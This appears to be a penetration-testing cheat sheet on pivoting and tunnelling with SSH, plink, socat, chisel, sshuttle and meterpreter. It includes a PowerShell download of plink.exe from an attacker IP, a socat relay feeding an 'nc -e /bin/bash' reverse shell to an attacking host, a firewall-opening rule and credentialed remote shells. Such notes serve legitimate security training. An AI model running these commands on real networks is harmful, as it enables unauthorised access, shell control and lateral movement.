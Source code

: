 # Port Forwarding/Tunneling and Pivoting

### SSH Tunnelling / Port Forwarding

For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10.

```
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```

We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 on our own attacking machine.

Proxies are made using the -D switch, for example: -D 1337. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:

```
ssh -D 1337 user@172.16.0.5 -fN
```

#### Reverse Connections

Generate a keypair:

```
ssh-keygen
```

Copy the contents of the public key (the file ending with .pub), then edit the ~/.ssh/authorized_keys file on your own attacking machine. You may need to create the ~/.ssh directory and authorized_keys file first.
On a new line, type the following line, then paste in the public key:

```
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty INSERT_PUBLIC_KEY
```

This makes sure that the key can only be used for port forwarding, disallowing the ability to gain a shell on your attacking machine.

The only thing left is to do the unthinkable: transfer the private key to the target box. This is usually an absolute no-no, which is why we generated a throwaway set of SSH keys to be discarded as soon as the engagement is over.

With the key transferred, we can then connect back with a reverse port forward using the following command:

```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

To put that into the context of our fictitious IPs: 172.16.0.10 and 172.16.0.5, if we have a shell on 172.16.0.5 and want to give our attacking box (172.16.0.20) access to the webserver on 172.16.0.10, we could use this command on the 172.16.0.5 machine:

```
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

This command can be used to create a reverse proxy in clients which do support it:

```
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

To close any of these connections, type ps aux | grep ssh into the terminal of the machine that created the connection.

Finally, type `sudo kill PID` to close the connection.

### Plink

Download `plink.exe`

```
C:\Users\Alfred>powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.8/plink.exe', 'plink.exe')"
```

Start SSH service on our attacking box.

```
root@kali:~# service ssh start
```

Run `plink.exe`

```
C:\Users\Alfred>plink.exe -l root -pw  -R 445:127.0.0.1:445 ATK_IP

Or

C:\Users\Alfred>plink.exe -l root@ATK_IP -R 445:127.0.0.1:445

Or

cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

Note that any keys generated by ssh-keygen will not work properly here. You will need to convert them using the puttygen tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with:
`puttygen KEYFILE -o OUTPUT_KEY.ppk`
Substituting in a valid file for the keyfile, and adding in the output file.

Use `winexe` to get a shell

```
root@kali:~# winexe -U Administrator //127.0.0.1 "cmd.exe"
root@kali:~# winexe -U 'admin@password123' //127.0.0.1 cmd.exe

or

psexec.py USER:PASSWORD@IP cmd.exe
```

### Socat

#### Reverse Shell Relay

First let's start a standard netcat listener on our attacking box

```bash
sudo nc -lvnp 443
```

Next, on the compromised server, use the following command to start the relay:

```
./socat tcp-l:20000 tcp:ATTACKING_IP:443 &
./nc 127.0.0.1 20000 -e /bin/bash
```

#### Port Forwarding

- Easy
  On the compromised server

```
./socat tcp-l:LOCAL_PORT,fork,reuseaddr tcp:TARGET_IP:TARGET_PORT &
```

- Quiet

On the attacking machine

```
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

On the compromised relay server

```
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

Check localhost:8000 on the attacker machine to see the port available on the intended target.

### Chisel

#### Reverse SOCKS Proxy

On the attacking machine start the server

```
./chisel server -p 8081 -reverse

./chisel server -p LISTEN_PORT --reverse &
```

On the target machine start the listening client

```
.\chisel.exe client 10.10.14.97:8081 R:8888:127.0.0.1:8888

./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

#### Forward SOCKS Proxy

Open port in windows firewall

```
netsh advfirewall firewall add rule name="Chisel-MuirlandOracle" dir=in action=allow protocol=tcp localport=47000
```

First, on the compromised host we would use:

```
./chisel server -p LISTEN_PORT --socks5
```

On our own attacking box we would then use:

```
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```

### sshuttle

```bash

sshuttle -r user@172.16.0.5 172.16.0.0/24

sshuttle -r user@172.16.0.5 --ssh-cmd "ssh -i private_key" 172.16.0.0/24

sshuttle -r root@10.200.198.200 --ssh-cmd "ssh -i id_rsa" 10.200.198.0/24 -x 10.200.198.200
```

## Pivoting

Post exploitation on a windows machine. Find what machine the target is talking to

```
arp -a
```

On a meterpreter shell

```
run autoroute -s 10.10.10.0/24

List routes

run autoroute -p

background

use autiliary/scanner/portscan/tcp
set PORTS 80, 8080, 445, 21, 22
set RHOSTS 192.69.228.3-10
exploit

Back on the meterpreter session
portfwd add -l 1234 -p 21 -r 192.58.241.3
portfwd list

nmap -sS -sV -p 1234 localhost
use auxiliary/scanner/portscan/tcp
```

### Ping Sweeps

```
bash
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done

netcat
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

### Proxychains
- /etc/proxychains4.conf
```
socks5 127.0.0.1 1080
```
Run a command you need to prefix it with “proxychains <command>”

### Further information and Links

* [Pentesting Pivoting Guide](https://github.com/t3l3machus/pentest-pivoting)